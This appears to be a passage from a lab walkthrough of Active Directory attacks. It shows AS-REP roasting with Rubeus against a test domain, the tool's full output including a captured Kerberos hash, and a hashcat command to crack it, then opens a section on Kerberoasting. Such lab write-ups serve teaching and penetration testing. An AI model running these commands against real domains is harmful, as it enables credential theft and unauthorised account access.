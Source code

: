 ## Generate vulnerability

Activate

![image](https://user-images.githubusercontent.com/13157446/129409430-5b5cc59e-5ed3-4370-b8bf-f1fe1a00ef98.png)

## Exploitation


Run Rubeus

	PS C:\Users\thor\Desktop> .\Rubeus.exe asreproast /outfile:hash.txt /format:hashcat

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v1.6.4


	[*] Action: AS-REP roasting

	[*] Target Domain          : valhalla.local

	[*] Searching path 'LDAP://odin.valhalla.local/DC=valhalla,DC=local' for AS-REP roastable users
	[*] SamAccountName         : roastme
	[*] DistinguishedName      : CN=roastme,CN=Users,DC=valhalla,DC=local
	[*] Using domain controller: odin.valhalla.local (192.168.200.100)
	[*] Building AS-REQ (w/o preauth) for: 'valhalla.local\roastme'
	[+] AS-REQ w/o preauth successful!
	[*] AS-REP hash:

		  $krb5asrep$roastme@valhalla.local:F4871226F4E82B420B51A83FF0ADC8ED$7BA4EC10E4675
		  3B204A053744C7B003E5DDBC699CD6B3DB541865246D3E1ED7C798DE2245040824916266EBACF959
		  1A663AF9A85129F51474CD250DAF4F290D24DCEAA196CC28B807431D4222EF1CDCBA40835FF6FC1A
		  CF607A0291412D4E59E181359B6452AABC55B917C064A38EEDE9FEC825EA1DD72414FAE178691A4C
		  541F26822317CB8B894E63581C90DD56A1D38DF0C1809F6A13B4166C4FB04A64C17ECF86D2538AF5
		  C3BA2E4EE2D101BAD135EE6B3784DBC36BD94AFCC79E0271F9B84D3E1BA73659202FD15AB9B37EF4
		  EEFB4C8318395D9FC80D8F83751030F799419BF16FED209F3BC2CFFB15FB9EBBC6A
	
	
Crack it 

	hashcat -m 18200 hash.txt 500.txt --force 

# Kerberoasting


During this attack, an adversary attempts to enumerate the Service Principal Name (SPNs) of service accounts through crafted LDAP queries
